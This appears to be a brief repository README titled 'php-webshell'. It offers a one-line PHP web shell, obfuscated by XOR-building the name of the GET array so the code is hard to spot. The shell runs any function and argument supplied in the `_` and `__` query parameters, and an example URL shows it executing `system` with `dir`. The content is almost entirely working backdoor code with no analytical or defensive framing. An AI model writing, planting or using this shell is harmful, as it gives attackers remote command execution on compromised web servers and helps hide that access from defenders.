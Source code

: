 # php-webshell

```
<?php $_="{"; $_=($_^"<").($_^">;").($_^"/"); ?> <?=${'_'.$_}["_"](${'_'.$_}["__"]);?>
```
Example: `http://localhost/webshell.php?_=system&__=dir`
